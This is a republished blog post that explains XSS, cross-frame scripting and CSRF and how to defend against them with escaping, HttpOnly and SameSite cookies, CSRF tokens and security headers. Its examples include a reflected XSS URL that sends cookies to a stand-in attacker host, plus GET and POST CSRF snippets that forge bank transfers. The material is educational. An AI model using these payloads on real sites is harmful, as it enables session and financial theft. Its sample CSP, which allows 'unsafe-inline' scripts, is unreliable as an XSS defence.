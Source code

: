 ```yaml
---
layout: post
title: Prevent XSS and CSRF attacks on your website
date: 2019-08-19 00:00:00 +0300
description: what are xss and csrf attacks and how can we prevent them? # Add post description (optional)
img: prevent-xss-csrf.png # Add image post (optional)
fig-caption: none # Add figcaption (optional)
tags: [csrf,xss,browser,attack,xfs,security,web,hacking,cookies,website,svg]
categores: [Security]
---
```


### 1. **What is XSS: Cross-site scripting?**

In case of XSS, the attacker makes the victim's browser execute a script (mostly JavaScript) that has been injected by the attacker while visiting a trusted web site. The attacker has several ways of injecting the JavaScript into a web site that the victim trusts.

XSS doesn't need an authenticated session and can be exploited when the vulnerable website doesn't do the basics of validating or escaping input.

When the server doesn't validate or escape input as a primary control, an attacker can send inputs via request parameters or any kind of client side input fields (which can be cookies, form fields or url params). These can be written back to screen, persisted in database or executed remotely.

Be aware using shorten URLs as you don't know where they can lead! First check where the hidden link leads using unshorten.it. After receiving the final link, check it out on the VirusTotal website. It is also suggested to have it as a browser extension.

### 2. **Reflected XSS (aka Non-Persistent or Type II XSS)**

Reflected attacks are those where the malicious script is reflected by a web server and then executed by the the web browser. In this type of attack a user is tricked into clicking a link, or filling in a form, that has the script hidden in it. This can be achieved by sending an email, or posting the link on a forum.

As the domain that the victim can see in the URL is well known and trusted, the victim won't expect any harm behind it. When this is submitted to the server it will be rejected and reflected back to the browser. Many servers will send the input back in text format so the browser can display the input that was rejected. If this text is a valid script then the browser will execute it as it is coming from a trusted source. The attacker could use the victim's CPU to calculate bitcoins in the browser or could steal the victim's cookie.

```html
https://google.com?query=<script>new Image().src="http://attackerurl.org/storecookie?cookie="+document.cookie;</script>
```
![reflected xss attack]({{site.baseurl}}/assets/img/prevent-xss-csrf-1.png)

### 2. **Stored XSS (aka Persistent or Type I XSS)**

Besides injecting the script using query parameters, the attacker may also inject the script persistenly into a web site's storage. The storage can be in a database, in a web page component like a message forum, visitor log, comment field, or other element that goes to make up a page to deliver to a user. In case, a forum that doesn't validate the user's input, website could be compromissed by posting something that contains the malicious script. The malicious script is delivered along with the normal web content and the client executes it. Every user of the forum that reads the attacker's post will become a victim.

![stored xss attack]({{site.baseurl}}/assets/img/prevent-xss-csrf-2.png)

### 3. **What is XFS: Cross Frame Scripting?**

Cross-Frame Scripting (XFS) is an attack that combines malicious JavaScript with an iframe that loads a legitimate page in an effort to steal data from an unsuspecting user. This attack is usually only successful when combined with social engineering. An example would consist of an attacker convincing the user to navigate to a web page the attacker controls. The attacker's page then loads malicious JavaScript and an HTML iframe pointing to a legitimate site. Once the user enters credentials into the legitimate site within the iframe, the malicious JavaScript steals the keystrokes.

The X-Frame-Options HTTP response header can be used to indicate whether or not a browser should be allowed to render a page in a <frame>, <iframe>, <embed> or <object>. Sites can use this to avoid clickjacking attacks, by ensuring that their content is not embedded into other sites.

```html
X-Frame-Options: deny
X-Frame-Options: sameorigin
X-Frame-Options: allow-from https://example.com/
```

### 3. **JavaScript in image tags**

Directly injecting JavaScript code in the source attribute of <img> tag is no longer possible on modern browsers.

But SVG is an XML based vector graphic format, therefore it invokes the XML parser in the browser. Moreover, <script> tag is allowed in the SVG, so JavaScript can be embed directly into SVG.

Browsers that support SVG inside <img> tags do not support scripting inside the context. **But you should not  use SVG inside <embed> or <object> tags where scripting is supported by browsers!**

![stored xss attack]({{site.baseurl}}/assets/img/prevent-xss-csrf-3.png)

Allowing SVG inside <img>may be dangerous when:

* An XML parser is used to parse the SVG, whether it is inside the <img> or <object> tag. The parser is certainly tweaked with some parameters to ignore <script> tags in the <img> context. Yet, that is quite ugly, it is blacklisting a tag in a certain context. And blacklisting is poor security.
* <script> is not the only way to achieve execution context in SVG, there are also the onmouseover (and family) events present in SVG. This is again tricky to blacklist.
* The XML parser in browsers did suffer from problems in the past, notable with XML comments around script blocks. SVG may present similar problems.
* SVG has full support for XML namespaces. xlink:href is a completely valid construct in SVG and the browser inside the XML parser context will likely follow it.
Therefore, SVG opens several possible vectors to achieve execution context. And moreover, it is a relatively new technology and therefore not well hardened.

### 3. **What is CSRF: Cross-site request forgery?**

In a CSRF attack, the attacker tries to force/trick you into making a request which you did not intend, making use of the existing victim's context, such as cookies. Every time you interact with website, its server checks the cookie you send with the request so it knows it's you.

The level of the attack is based upon the level of privileges that the victim possessed. Because attacker will use the authentication that has gained in the current session to do the malicious task. This is the reason why this attack termed as Session Riding too.

#### **Using a GET request (rare case)**

CSRF happens in authenticated sessions when the server trusts the user/browser. Let's consider an example when you are logged in into your banking site. An attacker can place a malicious link embedded in another link or zero byte image which can be like:

```html
<img src=yourbanking.com/transfer.do?to_account={attackers_account}&amt=2500>
```
Now, in the background transfer can happen though you clicked this link (of course, if your banking uses GET request for such actions without any confirmation). Depending on the vulnerable web site, using CSRF, attackers can also change your credentials or user profile properties.

#### **Using a POST request (common and most popular case)**

This attack requires the user to click the form button on hacker's website, then the malicious page could just as easily send the request by submitting the form.

```html
<h1>You Are a Winner!</h1>
<form action="http://yourbanking.com/api/account/transfer" method="post">
    <input type=hidden name=to_account value="attacker_id" />
    <input type=hidden name=amount value="1000000" />
    <input type=submit value="Click me to get your reward" />
</form>
```
After submitting the form user could figure out what happened, but it could be too late to revert or discard these changes.

![using a POST request ]({{site.baseurl}}/assets/img/prevent-xss-csrf-4.png)

Moreover, using SSL does not prevent a CSRF attack, because the malicious site can send an "https://" request. Typically, CSRF attacks are possible against web sites that use cookies for authentication, because browsers send all relevant cookies to the destination web site.

### 5. **Difference between XSS and CSRF**

Both these attacks seems to be very similar, as they are client-side attacks and doing quite similar things, enforcing some form of user activity (e.g. clicking a link or visiting a website).

In a cross-site scripting (XSS) attack, the attacker makes you involuntarily execute client-side code, most likely Javascript. In a cross-site request forgery (CSRF) attack, the attacker manipulates you to making a melicoius request to the server which you did not intend. This could be sending you a link that makes you involuntarily perform some action.

XSS is generally more powerful than CSRF because it usually allows the execution of arbitrary script code while CSRF is restricted to a particular action (e.g. changing the password). A successful XSS attack also effectively bypasses all anti-CSRF measures.

### 6. **Protect your website**

#### **Protect against XSS attack**

##### **Escape special characters, validate and sanitize inputs**

> Expect any untrusted data to be malicious. What's untrusted data? Anything that originates from outside the system and you don't have absolute control over so that includes form data, query strings, cookies, other request headers, data from other systems (i.e. from web services) and basically anything that you can't be 100% confident doesn't contain evil things.

> Troy Hunt

**Validating input** is the process of ensuring an application is rendering the correct data and preventing malicious data from doing harm to the site, database, and users. Input validation is especially helpful and good at preventing XSS in forms, as it prevents a user from adding special characters into the fields, instead refusing the request.

**Sanitizing data** is a strong defense, but should not be used alone to battle XSS attacks. Sanitizing user input is especially helpful on sites that allow HTML markup, to ensure data received can do no harm to users as well as your database by scrubbing the data clean of potentially harmful markup, changing unacceptable user input to an acceptable format.

**Escaping data** means taking the data an application has received and ensuring it’s secure before rendering it for the end user. By escaping user input, key characters in the data received by a web page will be prevented from being interpreted in any malicious way. In essence, you're censoring the data your web page receives in a way that will disallow the characters – especially < and > characters – from being rendered, which otherwise could cause harm to the application and/or users. If your page doesn’t allow users to add their own code to the page, a good rule of thumb is to then escape any and all HTML, URL, and JavaScript entities.

##### **HttpOnly flag for cookies**

The purpose of the HttpOnly flag is to make the value of the cookie unavailable from JavaScript, so that it can not be stolen if there is a XSS vulnerability.

Any attempt to access the cookie from client script is strictly forbidden. Of course, this presumes you have:

A modern web browser
A browser that actually implements HttpOnly correctly
The good news is that most modern browsers do support the HttpOnly flag. Regardless, HttpOnly cookies are a great idea, and properly implemented, make common XSS attacks much harder to pull off.

HttpOnly cookies don't make you immune from XSS cookie theft, but they raise the bar considerably. Anyway, a "set it and forget it" setting is pretty secure as all modern browsers implemented client-side HttpOnly cookie security correctly.

##### **Security headers**

The HTTP Content-Security-Policy response header allows web site administrators to control resources the user agent is allowed to load for a given page. With a few exceptions, policies mostly involve specifying server origins and script endpoints. This helps guard against cross-site scripting attacks (XSS).

```html
Content-Security-Policy: default-src https:; script-src https: 'unsafe-eval' 'unsafe-inline'; style-src https: 'unsafe-inline'; img-src https: data:; font-src https: data:; report-uri /csp-report
```
The X-XSS-Protection header is designed to enable the cross-site scripting (XSS) filter built into modern web browsers. This is usually enabled by default, but using it will enforce it.

```html
X-XSS-Protection: 1; mode=block
```

A 0 value disables the XSS Filter. A 1 value enables the XSS Filter. If a cross-site scripting attack is detected, in order to stop the attack, the browser will sanitize the page.

A 1; mode=block value also enables the XSS Filter and rather than sanitize the page, when an XSS attack is detected, the browser will prevent rendering of the page.

#### **Protect against CSRF attack**

##### **Using CSRF-token**

Because of your session is active in the browser and it has your session id, CSRF attack can happend. This is the reason the most popular CSRF protection is having another server supplied unique token generated and appended in the request as a hidden value in every state changing form which is present on the web application. This token, called a CSRF Token or a Synchronizer Token. This unique token is not something which is known to the browser like session id.

Instead of putting the anti-CSRF token in the cookie, the server needs to put it as a hidden parameter in a form. For every request involving some sensitive action, the browser will send this token also along with the request and the server, before performing the action, would verify if the token is the one that it had sent to the browser or not. This additional validation at server will make sure that the attacker manipulated link.

This protects the form against CSRF attacks, because an attacker has no way of performing this sensitive action on behalf of the user, as forging a request will also need to guess the anti-CSRF token. Unless an attacker won't successfully trick a victim into sending a valid request or somehow finds out the random anti-CSRF token itself.

**_This token should be invalidated after some time and after the user logs out. The token have to be unique per action and have to be valid only once. Never share tokens via URLs._**

##### **Using Same-site attribute for cookies**

CSRF attacks are only possible since Cookies are always sent with any requests that are sent to a particular origin (domain and path), which is related to that Cookie. Due to the nature of a CSRF attack, a flag can be set against a Cookie, tuning it into a same-site Cookie. A same-site Cookie is a Cookie which can only be sent, if the request is being made from the same origin that is related to the Cookie being sent. The Cookie and the page from where the request is being made, are considered to have the same origin if the protocol, port (if applicable) and host is the same for both.

When another site tries to request something from the web application, the cookie is not sent. This effectively makes CSRF impossible, because an attacker can not use a user's session from his site anymore.

There are two possible values for the same-site attribute:

* Strict: the cookie is withheld with any cross-site usage. Even when the user follows a link to another website the cookie is not sent.
* Lax: some cross-site usage is allowed. Specifically, if the request is a GET request and the request is top-level. Top-level means that the URL in the address bar changes because of this navigation. This is not the case for iframes, images or XMLHttpRequests.

| request type | html code example | cookie type |
|:------------------:|:--------------------:|:---------------------:|
| link | &lt;a href="..."> | normal, lax |
| prerender | &lt;link rel="prerender" href="..." /> | normal, lax |
| form GET | <form action="..."> | normal, lax |
| form POST | <form method="post" action="..."> | normal |
| iframe | <iframe src=...> | normal |
| image | <img src=...> | normal |
| AJAX | fetch('...') (JavaScript) | normal |

This table shows what cookies are sent with cross-origin requests. As you can see cookies without a same-site attribute (indicated by "normal") are always sent. **Strict cookies are never sent. Lax cookies are only send with a top-level get request.**

As you would expect strict mode gives better security, but breaks some functionality. Links to protected resources won't work from other sites. Even if you are logged in and have access to some resource, your strict cookies won't be sent when coming from another site. With lax mode, this still works, while providing decent security by blocking cross-site post requests.

The same-site attribute is a good method to protect against CSRF attacks, because it seems to the attacker as though you are no longer logged in to the website under attack.

##### **Using Referer, Origin, Host and X-Requested-With headers**

X-Requested-With: XMLHttpRequest HTTP header can prevent CSRF attacks because this header cannot be added to the AJAX request cross domain without the consent of the server via CORS. Without CORS it is not possible to add X-Requested-With to a cross domain XHR request. Only the following headers are allowed cross domain:

* Accept
* Accept-Language
* Content-Language
* Last-Event-ID
* Content-Type

Referer header tells server from where the request has originated. If the request is coming from unauthorized domain, then Referer header will contain that value and server can simply reject that request.

_These headers are great to additional check against CSRF attack, but do not rely only on them._

**Misunderstanding the Same Origin Policy (aka SOP) and what Cross-origin resource sharing (aka CORS) brings to the table**

All the SOP does, is prevent the response from being read by another domain (aka origin). This is irrelevant to whether a CSRF attack is successful or not. The only time the SOP comes into play with CSRF is to prevent any token from being read by a different domain.

CORS does not increase security, it simply allows some exceptions to take place. Some browsers with partial CORS support allow cross site XHR requests (e.g. IE 10 and earlier), however they do not allow custom headers to be appended. In CORS supported browsers the Origin header cannot be set, preventing an attacker from spoofing this.

All of the above has nothing to do with forged requests coming directly from an attacker. Remember, the attacker needs to use the victim's browser for their attack. They need the browser to automatically send its cookies. This cannot be achieved by a direct curl request as this would only be authenticating the attacker in this type of attack scenario (the category known as "client-side attacks").

### **Conclusion**

Both attacks have in common that they are client-side attacks and need some action of the end user, such as clicking on a link or visiting a web site. XSS executes a malicious script in your browser, CSRF sends a malicious request on your behalf.

###### **本文转载自Sergey Podgornyy的[《Prevent XSS and CSRF attacks on your website》](https://blog.larapulse.com/security/prevent-xss-csrf-attacks){:target="_blank"}**